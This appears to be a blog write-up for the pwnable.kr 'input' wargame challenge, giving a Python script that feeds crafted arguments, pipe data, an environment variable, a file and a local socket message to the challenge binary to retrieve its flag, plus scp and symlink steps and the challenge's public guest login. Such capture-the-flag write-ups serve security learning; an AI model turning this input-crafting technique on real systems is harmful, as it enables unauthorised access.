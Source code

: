 ```yaml
---
layout:     post
title:      pwnable input
author:     wooy0ung
tags: 		pwn
category:  	writeup
---
```



>Problem Address:  
>http://pwnable.kr/  
>  
>Problem Description:  
>Mom? how can I pass my input to a computer program? 
>  
>Address:  
>ssh input2@pwnable.kr -p2222 (pw:guest)
<!-- more -->


### 0x00 exploit

不解释, 按照要求输入即可~

```
import subprocess
import os
import sys, socket, struct
import time

# stage 1: arg
args = 'A' * 99
args = list(args)
args[ord('A')-1] = ""
args[ord('B')-1] = "\x20\x0a\x0d"
args[ord('C')-1] = "2224"

# stage 2: stdin
stdinr, stdinw = os.pipe()
stderrr, stderrw = os.pipe()
os.write(stdinw, "\x00\x0a\x00\xff")
os.write(stderrw, "\x00\x0a\x02\xff")

# stage 3: env
my_env = os.environ.copy()
path = "/tmp/exploit:" + my_env["PATH"]
environ = {"\xde\xad\xbe\xef" : "\xca\xfe\xba\xbe", "PATH": path}

# stage 4: fileio
f = open("\x0a", "wb")
f.write("\x00\x00\x00\x00")
f.close()

# stage 5: network
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

proc = subprocess.Popen(["/home/input2/input"] + args, env = dict(os.environ,**environ), stdin=stdinr, stderr=stderrr)
time.sleep(1)
s.connect(("127.0.0.1", 2224))
s.send("\xde\xad\xbe\xef")
s.close()
```

scp上传到远程主机, tmp没有权限, 需要新建一个exploit文件夹

```
$ scp -P 2222 exploit.py input2@pwnable.kr:/tmp/exploit
```

将input2目录下的flag链接到exploit目录

```
$ ln -s /home/input2/flag flag
```

getflag~

![](/assets/img/writeup/pwn/2017-08-27-pwnable-input/0x00.png)